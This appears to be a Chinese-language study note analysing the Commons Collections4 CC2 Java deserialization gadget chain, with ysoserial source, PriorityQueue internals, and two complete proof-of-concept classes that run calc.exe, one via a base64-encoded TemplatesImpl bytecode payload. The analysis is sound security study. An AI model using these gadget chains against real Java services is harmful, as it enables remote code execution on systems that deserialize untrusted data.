

这次我们来看看CC2反序列化链<br />利用链
:::tips
/*<br />   Gadget chain:<br />      ObjectInputStream.readObject()<br />         PriorityQueue.readObject()<br />            ...<br />               TransformingComparator.compare()<br />                  InvokerTransformer.transform()<br />                     Method.invoke()<br />                        Runtime.exec()<br /> */
:::
ysoserial源码
```java
public Queue<Object> getObject(final String command) throws Exception {
    final Object templates = Gadgets.createTemplatesImpl(command);
    // mock method name until armed
    final InvokerTransformer transformer = new InvokerTransformer("toString", new Class[0], new Object[0]);

    // create queue with numbers and basic comparator
    final PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformer));
    // stub data for replacement later
    queue.add(1);
    queue.add(1);

    // switch method called by comparator
    Reflections.setFieldValue(transformer, "iMethodName", "newTransformer");

    // switch contents of queue
    final Object[] queueArray = (Object[]) Reflections.getFieldValue(queue, "queue");
    queueArray[0] = templates;
    queueArray[1] = 1;

    return queue;
}
```
这条链必须在org.apache.commons.collections4中使用，因为TransformingComparator这个类在4之前并没有实现Serializable接口，所以在CC3.2.1无法使用<br />我们来分析以下整个利用链<br />其中最为关键的触发类是PriorityQueue类，其实现了一个优先队列<br />对该类的分析可以看下面这篇文章，这里就不细讲了。<br />[PriorityQueue源码分析 - linghu_java - 博客园](https://www.cnblogs.com/linghu-java/p/9467805.html)<br />我们先是以PriorityQueue#readObject作为起点，调用了heapify
```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    SharedSecrets.getJavaOISAccess().checkArray(s, Object[].class, size);
    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```
heapify保证元素在合理的顺序下,调用了siftDown
```java
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}
```
如果comparator不为null，则会调用siftDownUsingComparator，我们继续跟进
```java
private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}
```
在k < half情况下，会调用comparator#compare
```java
private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```
我们也可以发现org.apache.commons.collections4.comparators.TransformingComparator#compare调用了transform。
```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```
能够任意调用transform，我们就又可以构造一个transformer执行类<br />开始构造POC<br />**执行类**<br />先放入fakerTranformer
```java
Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
final Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
    new ConstantTransformer(1)
};
Transformer transformerChain = new ChainedTransformer(fakeTransformers);
```
**触发类**<br />ProrityQueue第一个参数为其size，需要大于等于2才能触发相应的方法，所以我们参入2<br />再add两个任意对象
```java
PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformerChain));
queue.add(1);
queue.add(1);
```
**替换**<br />再替换为我们的恶意Transformer
```java
setFieldValue(transformerChain, "iTransformers", transformers);
```
完整POC
```java
package com.example.demo;

import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CommonCollection2 {
    public static void main(String[] args) throws Exception {
        // 执行类
        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
                new ConstantTransformer(1)
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 触发类
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(transformerChain));
        queue.add(1);
        queue.add(1);

        setFieldValue(transformerChain, "iTransformers", transformers);
//        outerMap.remove("Ki1ro");
        // 序列化
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bo);
        oos.writeObject(queue);
        oos.close();
        bo.close();
//        System.out.println(bo);
//        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bo.toByteArray()));
        Object ob = (Object) ois.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
当然，我们还可以利用TemplatesImpl来构造一个无数组的CC2反序列链<br />修改执行类
```java
Transformer Transform = new InvokerTransformer("toString", null, null);
byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAcDAAdAB4BAAhjYWxjLmV4ZQwAHwAgAQASSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAJAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAADAALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAAPAAQAEAANABEACwAAAAQAAQAQAAEAEQAAAAIAEg==");
TemplatesImpl obj = new TemplatesImpl();
setFieldValue(obj, "_class", null);
setFieldValue(obj, "_bytecodes", new byte[][]{code});
setFieldValue(obj, "_name", "HelloTemplatesImpl");
setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
```
add中将TemplatesImpl对象加入进去
```java
PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(Transform));
queue.add(obj);
queue.add(obj);
```
再默认替换即可
```java
setFieldValue(Transform, "iMethodName", "newTransformer");
```
CC2_noArray POC
```java
package com.example.demo;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;
import java.util.Properties;

public class CommonCollection2_noArray {
    public static void main(String[] args) throws Exception {
        // 执行类
        Transformer Transform = new InvokerTransformer("toString", null, null);
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAIQoABgATCgAUABUIABYKABQAFwcAGAcAGQEACXRyYW5zZm9ybQEAcihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtbTGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBAApFeGNlcHRpb25zBwAaAQCmKExjb20vc3VuL29yZy9hcGFjaGUveGFsYW4vaW50ZXJuYWwveHNsdGMvRE9NO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL2R0bS9EVE1BeGlzSXRlcmF0b3I7TGNvbS9zdW4vb3JnL2FwYWNoZS94bWwvaW50ZXJuYWwvc2VyaWFsaXplci9TZXJpYWxpemF0aW9uSGFuZGxlcjspVgEABjxpbml0PgEAAygpVgcAGwEAClNvdXJjZUZpbGUBABdIZWxsb1RlbXBsYXRlc0ltcGwuamF2YQwADgAPBwAcDAAdAB4BAAhjYWxjLmV4ZQwAHwAgAQASSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAE2phdmEvbGFuZy9FeGNlcHRpb24BABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7ACEABQAGAAAAAAADAAEABwAIAAIACQAAABkAAAADAAAAAbEAAAABAAoAAAAGAAEAAAAJAAsAAAAEAAEADAABAAcADQACAAkAAAAZAAAABAAAAAGxAAAAAQAKAAAABgABAAAADAALAAAABAABAAwAAQAOAA8AAgAJAAAALgACAAEAAAAOKrcAAbgAAhIDtgAEV7EAAAABAAoAAAAOAAMAAAAPAAQAEAANABEACwAAAAQAAQAQAAEAEQAAAAIAEg==");
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_class", null);
        setFieldValue(obj, "_bytecodes", new byte[][]{code});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
//        setFieldValue(obj, "_outputProperties", new Properties());

        // 触发类
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2,new TransformingComparator(Transform));
        queue.add(obj);
        queue.add(obj);

        setFieldValue(Transform, "iMethodName", "newTransformer");
        // 序列化
        ByteArrayOutputStream bo = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(bo);
        oos.writeObject(queue);
        oos.close();
        bo.close();
        System.out.println(bo);
        // 反序列化
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(bo.toByteArray()));
        Object ob = (Object) ois.readObject();
    }
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }
}
```
实现效果<br />
